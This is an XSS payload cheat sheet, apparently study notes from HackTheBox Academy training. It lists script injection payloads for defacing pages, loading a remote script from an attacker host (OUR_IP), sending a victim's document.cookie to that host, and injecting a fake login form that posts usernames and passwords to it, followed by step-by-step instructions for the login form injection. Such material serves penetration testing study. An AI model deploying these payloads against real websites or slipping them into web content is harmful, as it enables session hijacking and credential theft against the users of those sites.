 # XSS



| `<script>alert(window.origin)</script>`                                                                                                                                                                                                                                                                                                                                                              | Basic XSS Payload             |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------- |
| `<plaintext>`                                                                                                                                                                                                                                                                                                                                                                                        | Basic XSS Payload             |
| `<script>print()</script>`                                                                                                                                                                                                                                                                                                                                                                           | Basic XSS Payload             |
| `<img src="" onerror=alert(window.origin)>`                                                                                                                                                                                                                                                                                                                                                          | HTML-based XSS Payload        |
| `<script>document.body.style.background = "#141d2b"</script>`                                                                                                                                                                                                                                                                                                                                        | Change Background Color       |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`                                                                                                                                                                                                                                                                                                        | Change Background Image       |
| `<script>document.title = 'HackTheBox Academy'</script>`                                                                                                                                                                                                                                                                                                                                             | Change Website Title          |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                                                                                                                                                                                                                                                                                                                       | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>`                                                                                                                                                                                                                                                                                                                                      | Remove certain HTML element   |
| `<script src="http://OUR_IP/script.js"></script>`                                                                                                                                                                                                                                                                                                                                                    | Load remote script            |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`                                                                                                                                                                                                                                                                                                                      | Send Cookie details to us     |
| <p></p><pre class="language-javascript"><code class="lang-javascript">document.write('&#x3C;h3>Please login to continue&#x3C;/h3>&#x3C;form action=http://OUR_IP>&#x3C;input type="username" name="username" placeholder="Username">&#x3C;input type="password" name="password" placeholder="Password">&#x3C;input type="submit" name="submit" value="Login">&#x3C;/form>');</code></pre><p><br></p> | Login Form Injection          |

How to perform basic Login Form Injection via Reflected XSS \
\
Step 1: Test vulnerable form for the remove function by running script in console (Dev-Tools)

```
document.getElementById('urlform').remove();
```

Step 2: Inject form into webpage with XSS payload by executing the below script into console (Dev-tools)

```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

